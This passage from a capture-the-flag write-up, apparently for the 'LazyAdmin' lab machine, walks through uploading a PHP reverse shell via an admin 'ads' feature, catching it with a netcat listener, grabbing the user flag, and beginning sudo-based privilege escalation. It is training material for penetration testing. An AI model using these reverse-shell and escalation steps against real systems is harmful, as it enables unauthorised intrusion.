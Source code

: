 So this seems like an admin can add a malicious 'ad' to the website which can be a PHP file. Thus, we could probably use this to get a reverse shell, since we already have admin access.

### Reverse Shell - User Flag

Using the usual PHP reverse shell from [pentestmonkey](www.github.com/pentestmonkey/php-reverse-shell), I modified the exploit's IP to match my host's IP.

```PHP
$ip = '<host_ip>';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Next, I uploaded the PHP exploit on the `ads` tab on the dashboard, giving it the name `exploit`, and submitted it.

![ads](./img/lazyadmin/11.png)

From there, I started a netcat listener on my host device.

```bash
nc -lvnp 1234
```

Then, to run the exploit, I went to `http://<ip>/content/inc/ads/exploit`.

On my netcat listener, I got a connection! I then stabilised the shell so that I could use more commands.

![stabilise](./img/lazyadmin/12.png)

Once that was done, I navigated to the home directory and found the user flag.

![userflag](./img/lazyadmin/13.png)

### Privilege Escalation - Root Flag

Now, we have to find out how to escalate our privileges to root. Running `sudo -l`, we can see what commands we can run as root.

```bash
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

That's wild. We can run a Perl script `backup.pl` as root. Let's check out the file. Looking at the permissions:

```bash
www-data@THM-Chal:/$ ls -la /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
```
